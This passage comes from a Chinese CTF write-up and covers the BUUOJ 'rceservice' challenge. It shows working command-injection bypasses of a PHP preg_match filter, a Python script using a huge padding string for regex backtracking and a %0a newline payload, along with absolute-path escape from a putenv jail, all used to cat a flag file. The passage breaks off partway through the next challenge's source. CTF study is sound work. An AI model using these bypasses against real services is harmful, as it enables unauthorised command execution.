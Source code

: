 ```php
    echo '<br/><br/>';
  }
}

?>
```

putenv 相当于一个简陋的沙盒, 让 shell 默认从 `/home/rceservice/jail` 下寻找命令, 后面看的时候发现这个目录下只有一个 ls, 但其实使用绝对路径执行命令 (/bin/cat) 就能够绕过限制了

is_string 限制了传参不能为数组, 所以这里的关键点是如何绕过 `preg_match`

其中正则使用了 `.*`, 而且后面跟了一大堆需要过滤的字符, 可以尝试回溯绕过

查找后发现 flag 在 /home/rceservice/flag 里面, 然后通过绝对路径指定 cat

```python
import requests
import json

url = 'http://d74b595f-f641-43c5-87fb-36ddfabc88f0.node4.buuoj.cn:81/'

data = {
    "cmd": r'{"cmd":"/bin/cat /home/rceservice/flag","aa":"' + 'a'*1000000 +'"}'
}

res = requests.post(url,data=data)
print(res.text)
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209141912828.png)

另外一种方式是用换行符 `%0a` 绕过, 因为 `.` 不匹配换行符

参考文章 [https://www.cnblogs.com/20175211lyz/p/12198258.html](https://www.cnblogs.com/20175211lyz/p/12198258.html)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209141915616.png)

```
cmd={%0a"cmd":"/bin/cat%20/home/rceservice/flag"%0a}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209141919437.png)

不过还不太清楚为啥 `%0a` 要加在大括号里面...

## [Zer0pts2020]Can you guess it?

```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
```
